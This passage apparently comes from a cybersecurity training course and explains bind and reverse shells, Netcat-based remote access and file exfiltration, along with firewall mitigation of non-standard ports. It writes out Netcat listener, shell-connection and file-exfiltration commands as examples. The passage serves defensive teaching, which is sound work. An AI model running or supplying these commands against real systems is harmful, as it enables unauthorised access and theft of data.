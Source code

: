 As well as beaconing and data transfer, adversaries will often want to use a Remote Access Tool/Trojan (RAT) to obtain a shell on the compromised system and run commands. A shell is where the attacker opens a listening port that exposes the command prompt on the local host and connects to that port from a remote host.

A reverse shell is where the attacker opens a listening port on the remote host and causes the infected host to connect to it. Traffic received by the infected host is then redirected to the command prompt. A reverse shell is typically used to exploit organizations that haven't configured outbound traffic filtering at the firewall.

##### Netcat

Netcat (nc) is an open-source tool native to Linux and often used by attackers. One common method uses a listener started on a victim system (IP: 10.1.0.1) and set to pipe traffic from a program (such as the command interpreter) or file to the handler. Any arbitrary, unused port will work for the listener, but using registered ports requires administrative access:

- `nc -lvnp 8080`

The following command connects to the listener and grants access to the terminal:

- `nc 10.1.0.1 8080`

Used the other way around, Netcat can receive files. For example, on the target system, the attacker runs the following:

- `cat sensitive_file.xlsx | nc 10.1.0.249 8181`

On the handler (IP 10.1.0.249), the attacker receives the file using the following command:

- `nc -l -p 8181 > copy_of_file.xlsx`

Nmap has produced reimplementations of Netcat called ncat and nc. Cryptcat ( [cryptcat.sourceforge.net](http://cryptcat.sourceforge.net/) ) performs a similar function but with the ability to encrypt the channel. Socat ( [dest-unreach.org/socat](http://www.dest-unreach.org/socat/) ) is a bidirectional tool and supports better shell functionality, such as keyboard shortcuts and local variables. The open-source Pupy tool ( [github.com/n1nj4sec/pupy](https://github.com/n1nj4sec/pupy) ) is being developed as a means of evaluating exposure to post-exploitation techniques.

#### Mitigate Non-standard Port Usage

The best way to mitigate the use of non-standard ports is to configure firewalls to allow only whitelisted ports to communicate on ingress and egress interfaces. Unfortunately, this type of policy is difficult to put into practice, as it tends to cause numerous support issues for legitimate applications. Configuration documentation should also show which server ports are allowed on any given host type. This can then be used to create detection rules for non-standard port usage. Detection rules can also be configured to detect mismatched protocol usage over a standard port.

### 8.3.12 Application-Related Indicators of Compromise

Click one of the buttons to take you to that part of the video.

Application-Related Indicators of Compromise 00:00-00:19
In this lesson, we're going to talk about application-related indicators of compromise. These come from either you monitoring system or a user. You might hear, "It's just acting weird," see unusual pop-up windows, or experience slow or unresponsive applications.
